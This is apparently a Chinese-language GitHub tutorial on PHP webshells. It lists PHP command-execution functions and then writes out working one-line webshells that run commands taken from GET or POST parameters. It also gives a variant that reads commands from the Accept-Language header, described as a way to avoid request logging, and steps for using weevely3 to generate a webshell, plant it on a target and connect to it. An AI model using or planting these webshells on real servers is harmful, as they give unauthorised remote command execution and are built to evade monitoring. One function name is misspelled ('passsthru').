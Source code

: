 # webshells

    通过PHP脚本获取webshell

# PHP函数

## system()
```php
<?php
// Return the user the script is running under
system("whoami");
?>
```

## exec()
```
<?php
// Executes but returns nothing
exec("ls -la");
?>

<?php
// Executes, returns only last line of the output
echo exec("ls -la");
?>

<?php
// Executes, returns the output in an array
exec("ls -la",$array);
print_r($array);
?>
```

## shellexec()
```php
<?php
// Executes, returns the entire output as a string
echo shell_exec("ls -la");
?>
```

## passthru()
```php
<?php
// Executes, returns output in raw format
passsthru("ls -la");
?>
```

# Backticks
```php
<?php
$output = `whoami`;
echo "<pre>$output</pre>";
?>
```

## 所有函数合集
* exec
* system
* passthru
* shell_exec
* proc_open
* show_source
* parse_ini_file
* popen

# 构造webshell

    $_GET接收get请求的cmd参数内容
    system执行该参数
```php
<?php system($_GET['cmd']);?>
```
    将该文件webshell.php放到wwwroot目录下
    用浏览器发送get请求即可获取命令返回
```browser
http://ip:port/webshell.php?cmd=whoami
```

# 隐藏webshell

    由于上述get请求会被记录,可以很容易被看到
    可以将请求加入到post中
```php
<?php system($_POST['cmd']);?>
```
    将请求加入到header中
```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

# 实战

> https://github.com/epinna/weevely3

    使用已经开发好的工具

1. 生成php脚本
```shell
./weevely.py generate passwd webshell.php
```

2. 脚本发送到目标机器上

3. 本地连接目标机器
```shell
./weevely.py http://ip/webshell.php passwd
weevely>  
```